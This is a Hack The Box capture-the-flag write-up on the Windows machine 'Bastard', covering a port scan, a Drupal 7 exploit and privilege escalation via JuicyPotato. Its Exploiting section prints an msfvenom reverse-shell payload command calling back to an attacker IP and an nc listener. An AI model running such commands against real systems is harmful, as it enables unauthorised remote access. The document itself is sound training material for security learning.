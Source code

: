 ```yaml
---
title: "Bastard"
date: 2023-08-10T11:30:03+00:00
tags: ["Drupal v7","widnows","sherlock.ps1"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Bastard.png"
comments: false
description: "This is a friendly Windows machine that has a web page vulnerable due to Drupal v7."
---
```


## Room Information

- Room name: Bastard
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Bastard

![Untitled](/HTB/Bastard.png)

## Tools Used

- Nmap
- searchsploit
- sherlock.ps1
- multiple exploits ...

## Port Scanning

Other room, other port scan.

![Untitled](/HTB/nmap-bastard.png)

I found 3 open ports, 135(msrpc), 80(web), 49154(msrpc). Let's focus on the website ...

## Enumeration

On the port scan I saw that there's a file called `robots.txt` and The first thing I searched was just this
and for surprise this file content's some routes that I can put in a file and scan with `wfuzz or gobuster`,
but this results didn't tell me anything relevant. Since I saw a Drupal version 7 and I search it on searchsploit ...

![Untitled](/HTB/drupal-bastard.png)

Then I googled it and find a exploit in python that seems to work ...

![Untitled](/HTB/remote-bastard.png)


## Exploiting

Now I had remote control of the machine as user guest. So next I did was create a reverse shell with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f exe > reverse.exe` and listening with `nc -nlvp 443`, next the the machine was pawned ...

![Untitled](/HTB/in-bastard.png)

## Escalating Privileges

We are in now inside, with a user guest.

Next as always in a windows machine I did a `systeminfo` and searched with windows-vuln-suggester and Sherlock.ps1 the posibles vulnerabilities and found one called JuicyPotato ...

The full ecalating is [here](https://brsalcedom.github.io/Bastard-Writeup-HackTheBox/) better.

## Lessons Learned

- What insights did you gain from the room?
    
    I learned more about Durpal and windows.
    
- Were there any novel tools or techniques employed?
    
    The use of Sherlock.ps1.
